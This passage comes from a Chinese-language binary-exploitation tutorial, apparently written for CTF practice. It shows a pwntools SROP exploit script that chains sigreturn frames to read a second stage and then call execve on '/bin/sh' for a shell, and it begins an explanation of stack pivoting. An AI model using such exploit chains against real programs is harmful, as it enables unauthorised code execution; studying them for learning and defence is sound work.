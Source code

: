     #构造frame,表示read(0,stack_addr,0x400)
    frame = SigreturnFrame(kernel = "amd64")
    frame.rax = constants.SYS_read
    frame.rdi = 0x0
    frame.rsi = stack_addr
    frame.rdx = 0x400
    frame.rsp = stack_addr
    frame.rip = syscall_addr
    payload = p64(main_addr) + p64(0) + str(frame)
    p.send(payload)
    
    #通过控制输入的字符数量，调用sigreturn
    payload = p64(syscall_addr) + "\x00"*(15-8)
    p.send(payload)    
    #疑问:之前构造farme时，我们只往栈上写了8个字节的0，现在写入15个字节，那么多余的7个字节不会淹没构造的frame(read)吗？这可能与pwntools实现的SigreturnFrame内部的具体结构有关
    
    #输入15个字节后，此时rax是15，程序执行完read之后，ret跳转到syscall，执行sigreturn系统调用，根据frame设定的结构，程序接下来会执行read(0,stack_addr,0x400)
    #疑问：sigreturn以什么为依据来确定栈中的sigframe，怎么确定使用的是我们给定的frame(read)
    
    #read(0,stack_addr,0x400)执行完之后，等待数据的输入，此时我们需要输入构造的frame(execve),至于binsh字符串可以将它放在栈的后面部分，只要rdi能够正确的指向他的地址即可
    #构造拿shell的frame
    frame = SigreturnFrame(kernel = "amd64")
    frame.rax = constants.SYS_execve
    frame.rdi = stack_addr + 0x150    #binsh字符串的地址，后面会构造
    frame.rsi = 0x0
    frame.rdx = 0x0
    frame.rsp = stack_addr
    frame.rip = syscall_addr
    frame_payload = p64(main_addr) + p64(0) +str(frame)
    payload = frame_payload + (0x150-len(frame_payload))*"\x00" + "/bin/sh\x00"
    p.send(payload)
    
    payload = p64(syscall_addr) + "\x00"*(15-8)
    p.send(payload)
    
    p.interactive()
    ```
    

## 花式栈溢出技巧-stack pivoting

### 原理

栈迁移：劫持栈指针指向攻击者所能控制的内存处，然后再在相应的位置进行 ROP

### 使用场景

*   可以控制的栈溢出的字节数较少，难以构造较长的 ROP 链
*   开启了 PIE 保护，栈地址未知，我们可以将栈劫持到已知的区域。
*   其它漏洞难以利用，我们需要进行转换，比如说将栈劫持到堆空间，从而在堆上写 rop 及进行堆漏洞利用
